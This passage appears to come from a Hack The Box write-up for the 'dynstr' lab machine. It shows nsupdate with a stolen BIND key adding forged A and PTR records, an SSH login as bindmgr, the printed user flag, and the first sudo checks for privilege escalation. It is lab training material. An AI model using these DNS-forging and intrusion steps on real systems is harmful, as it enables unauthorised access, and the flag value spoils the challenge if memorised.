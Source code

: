 ```console
-rw-r--r-- 1 root root 1317 Dec 17  2019 zones.rfc1918
```

We will need **infra.key** to modify the PTR of **\*.infra.dyna.htb**. We use **nsupdate** command.

```console
www-data@dynstr:/home/bindmgr$ nsupdate -k /etc/bind/infra.key 
> update add diamondjackson.infra.dyna.htb 300 A 10.10.16.55 
> 
> update add 55.16.10.10.in-addr.arpa. 300 PTR diamondjackson.infra.dyna.htb
> send
> quit
```

Note that in the second update the IP address is written in reverse order (e.g 10.10.16.244 -> 244.16.10.10).

Let's see if we can login via SSH now.

```console
elpollon@elpollon:~/HTB/dynstr$ ssh -i ./id_rsa bindmgr@10.10.10.244
Last login: Sun Oct 17 10:09:38 2021 from r.infra.dyna.htb
bindmgr@dynstr:~$
```

Intrusion done. Now we see user's flag.

```console
bindmgr@dynstr:~$ ls -l
total 8
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13  2021 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Oct 17 07:10 user.txt
bindmgr@dynstr:~$ cat user.txt
70e2ee5a520e104a5c98836bb4edee0d
bindmgr@dynstr:~$ 
```

### Privilege escalation

Let's see if we can execute binaries as sudo.

```console
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

User **bindmgr** can execute the /usr/local/bin/bindmgr.sh file as sudo with no password. Let's see the output of the execution as sudo.

```console
bindmgr@dynstr:~$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /home/bindmgr.
[-] ERROR: Check versioning. Exiting.
```

